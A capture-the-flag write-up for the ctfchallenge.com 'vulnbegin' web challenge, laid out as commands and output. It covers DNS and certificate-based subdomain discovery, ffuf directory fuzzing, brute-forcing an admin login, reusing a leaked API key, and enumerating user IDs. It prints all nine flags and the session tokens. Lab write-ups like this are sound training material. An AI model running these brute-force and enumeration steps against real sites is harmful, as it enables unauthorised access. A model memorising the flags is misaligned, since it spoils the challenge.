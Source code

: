 ```yaml
---
ctf: cft_challenges
competition: false
categories: [web]
tools: [nslookup, dnsrecon, curl, fuff, seq]
url: https://ctfchallenge.com/challenges/6
points: 900
captured: 
flag: 
summary:
---
```

## Flag 1 
```
[^FLAG^BED649C4DB2DF265BD29419C13D82117^FLAG^]
```
- Subdomain Discovery: DNS Server Records
	- Interrogate DNS to discover subdomains to get an idea about the size and scale of the application using `nslookup`
		- You may find `TXT` record, for example, that tells us information like how a domain might protect against spam or a string that authentications 3rd party services
- Use `nslookup` to find a `TXT` record that contains a flag

```shell
nslookup -type=any vulnbegin.co.uk 8.8.8.8
```

## Flag 2 
```
[^FLAG^E858ED9649E57BECE9ACD1A4C60D3446^FLAG^]
```
-  Subdomain Discovery: DNS Bruteforce
	- Try to find subdomains by fuzzing using `dnsrecon` and the `subdomains.txt` file and seeing if we can pull a record from it.
- Brute force domains (using `dnsrecon`) to find `server.vulnbegin.co.uk`. Visit it and be sure to set the cookie.
		
```shell
dnsrecon -d vulnbegin.co.uk -D ~/wordlists/subdomains.txt -t brt
```

## Flag 3
```
[^FLAG^047524FE61AE6B5FD1D184994C7322FC^FLAG^]
```
- Subdomain Discovery: SSL Cert Records
	- A public record gets created whenever an SSL certificate is generated for a website, i.e., if you have an SSL, someone will be able to find the subdomain
	- [https://crt.sh](https://crt.sh) is an online database to search for registered SSL certs
- Search [https://crt.sh](https://crt.sh) for SSL certs for subdomains to find `http://v64hss83.vulnbegin.co.uk/`. Visit it and be sure to set the cookie.
	
```shell
curl https://crt.sh/json?q=vulnbegin.co.uk | jq .
curl -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" http://v64hss83.vulnbegin.co.uk/
```

## Flag 4
```
[^FLAG^2B22E2CB70E218510802B0359488F6A2^FLAG^]
```
- Fuzz for subdirectories and files using `fuff`  using the `content.txt` wordlist to find `/robots.txt`. Once there, you'll find `/secret_d1rect0ry`. Visit it and be sure to set the cookie.

```shell
ffuf -w ~/wordlists/content.txt -t 1 -p 0.1 -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" -u http://www.vulnbegin.co.uk/FUZZ -mc all -fc 404

cpadmin                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 24ms]
css                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 23ms]
js                      [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 25ms]
robots.txt              [Status: 200, Size: 41, Words: 3, Lines: 2, Duration: 24ms]

curl 'http://vulnbegin.co.uk/secret_d1rect0y/' -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" 
```

## Flag 5
```
[^FLAG^93D7491FB4B054FB5C5AC3E0292BE41C^FLAG^]
```
- After fuzzing, visit `/cpadmin`, which will redirect to a login page at `/cpadmin/login`. Use `fuff` to brute force the form.
- Fuzz the username using `fuff`  using the `Username is invalid` as a failure test string to find the `admin` username. Then fuzz the password using `fuff`  using the `Password is invalid` as a failure test string. Then login.

```shell
ffuf -w ~/wordlists/usernames.txt -X POST -d "username=FUZZ&password=x" -t 1 -p 0.1 -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" -H "Content-Type: application/x-www-form-urlencoded" -u http://www.vulnbegin.co.uk/cpadmin/login -fr 'Username is invalid'
________________________________________________
admin                   [Status: 200, Size: 1483, Words: 422, Lines: 37]

ffuf -w ~/wordlists/passwords.txt -X POST -d "username=admin&password=FUZZ" -t 1 -p 0.1 -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" -H "Content-Type: application/x-www-form-urlencoded" -u http://www.vulnbegin.co.uk/cpadmin/login -fr 'Password is invalid'
________________________________________________
159753                  [Status: 302, Size: 0, Words: 1, Lines: 1]
```

## Flag 6
```
[^FLAG^F6A691584431F9F2C29A3A2DE85A2210^FLAG^]
```
- When logged into `/cpadmin`, scan the `/cpadmin` directory using the cookie token that gets set in the browser. This reveals `/cpadmin/env` which is a JSON file that contains a flag and an `api-key`

```shell
$ffuf -w ~/wordlists/content.txt -t 1 -p 0.1 -H "Cookie: token=2eff535bd75e77b62c70ba1e4dcb2873; ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" -u http://www.vulnbegin.co.uk/cpadmin/FUZZ -mc all -fc 404 run
________________________________________________
env                     [Status: 200, Size: 111, Words: 2, Lines: 1]

curl 'http://vulnbegin.co.uk/cpadmin/env' -H 'Cookie: token=2eff535bd75e77b62c70ba1e4dcb2873;ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9'
```

## Flag 7
```
[^FLAG^0BDC60CC5E283476E7107C814C18DCCF^FLAG^]
```
- Visiting `/cpadmin/env` gave us an `X-Token` API key. If we set that as a header to a request back to the `server` subdomain (where we originally got  a flag but also a "User Not Authenticated" error), we then get a new flag and a "User Authenticated" message.

```shell
curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" http://server.vulnbegin.co.uk
```

## Flag 8
```
[^FLAG^7B3A24F3368E71842ED7053CF1E51BB0^FLAG^]
```
- Now that we have the `X-Token` header, we can fuzz for any files or directories that not return a `200`  on the `server` subdomain using the `content.txt` wordlist. 
- This reveals a `/user` endpoint. Visiting `/user` with our `X-Token` header reveals a JSON payload containing a new `/user/27` endpoint.
- This returns yet another JSON payload with a `vulbegin_website` username and `/user/27/info` endpoint
- This returns yet another JSON payload, this time containing a flag.

```shell
ffuf -w ~/wordlists/content.txt -t 1 -p 0.1 -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" -u http://server.vulnbegin.co.uk/FUZZ -mc all -fc 404
________________________________________________
user                    [Status: 200, Size: 89, Words: 1, Lines: 1]

curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" http://server.vulnbegin.co.uk/user

curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" http://server.vulnbegin.co.uk/user/27

curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" http://server.vulnbegin.co.uk/user/27/info
```

## Flag 9
```
[^FLAG^3D82BE780F46EE86CE060D23E6E80639^FLAG^]
```
- Now that we know about the `/user/:id` endpoint, we can fuzz for any other users who we might be able to see.
- This reveals `/user/5`. When we visit it, we get a 403 authentication error.
- We also know about `/user/:id/info`, when we visit that, we get a JSON payload that contains a username of `"admin"`, a description, and a flag.

```shell
seq 1 100 | ffuf -w - -t 1 -p 0.1 -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" -u http://server.vulnbegin.co.uk/user/FUZZ -mc all -fc 404
________________________________________________

5                       [Status: 403, Size: 48, Words: 9, Lines: 1]
27                      [Status: 200, Size: 70, Words: 1, Lines: 1]

curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" http://server.vulnbegin.co.uk/user/5

curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSnNjSFpxZG1kc01DSXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJlZGJlNGM2N2RhZjllYTMxZTAwNGI4MjVkNDFiNzEyMSJ9" http://server.vulnbegin.co.uk/user/5/info
```
